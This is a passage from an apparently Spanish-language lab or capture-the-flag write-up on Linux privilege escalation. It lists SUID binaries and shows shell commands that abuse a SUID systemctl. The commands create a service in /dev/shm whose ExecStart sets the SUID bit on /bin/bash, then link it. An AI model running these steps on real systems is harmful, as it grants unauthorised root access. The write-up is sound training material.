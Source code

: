 ```
      493     76 -rwsr-xr-x   1 root     root          76496 Mar 22  2019 /usr/bin/chfn
      735     24 -rwsr-xr-x   1 root     root          22520 Mar 27  2019 /usr/bin/pkexec
      588     76 -rwsr-xr-x   1 root     root          75824 Mar 22  2019 /usr/bin/gpasswd
      495     44 -rwsr-xr-x   1 root     root          44528 Mar 22  2019 /usr/bin/chsh
      697     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newgidmap
      715     60 -rwsr-xr-x   1 root     root          59640 Mar 22  2019 /usr/bin/passwd
      876     20 -rwsr-xr-x   1 root     root          18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   524425    180 -rwsr-sr-x   1 root     root         182352 Jul  8  2020 /bin/systemctl
   524577     28 -rwsr-xr-x   1 root     root          26696 Sep 16  2020 /bin/umount
   524423     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
   524554     44 -rwsr-xr-x   1 root     root          43088 Sep 16  2020 /bin/mount
   524356     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   524407     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
```

Veremos la siguiente seccion por la que podremos ser `root`...

```
 524425    180 -rwsr-sr-x   1 root     root    182352 Jul  8  2020 /bin/systemctl
```

URL = https://gtfobins.github.io/gtfobins/systemctl/

Por lo que si hacemos lo siguiente podremos ser `root`...

Antes de nada, en la carpeta tipica de `/tmp` no podremos hacer esta escalada, tendremos que hacerlo en otra carpeta que es como `/tmp` donde si podremos ejecutar los archivos de forma libre `/dev/shm`

```shell
TF=$(mktemp /dev/shm/my-service.XXXXXX.service)
```

```shell
echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod u+s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
```

```shell
systemctl link $TF
```

Ahora veremos como se llama nuestro servicio creado de la siguiente forma...

```shell
ls /dev/shm/my-service*
```

Info:

```
/dev/shm/my-service.pdRid6.service
```

Por lo que si sabemos como se llama nuestro servicio temporal, ya podremos ejecutarlo...
